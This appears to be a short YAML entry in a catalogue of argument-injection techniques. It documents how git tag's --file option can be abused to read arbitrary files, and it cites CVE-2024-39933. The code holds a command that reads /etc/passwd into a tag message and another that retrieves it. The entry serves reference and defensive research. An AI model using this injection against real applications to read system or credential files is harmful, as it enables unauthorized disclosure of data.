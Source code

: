 ```yaml
---
functions:
  file-read:
    - description: |
        `git tag` supports the option `--file` to read the tag message from a file. To
        retrieve the file contents later, you need to have access to tags and their tag
        messages. This might be possible within the target application, or by cloning
        the repo and manually extracting the tag message via
        `git cat-file -p refs/tags/<tagname>`
      code: |-
        git tag '--file=/etc/passwd' main
        git cat-file -p refs/tags/<tagname>
      references:
        - title: "CVE-2024-39933"
          url: https://nvd.nist.gov/vuln/detail/CVE-2024-39933
---
```

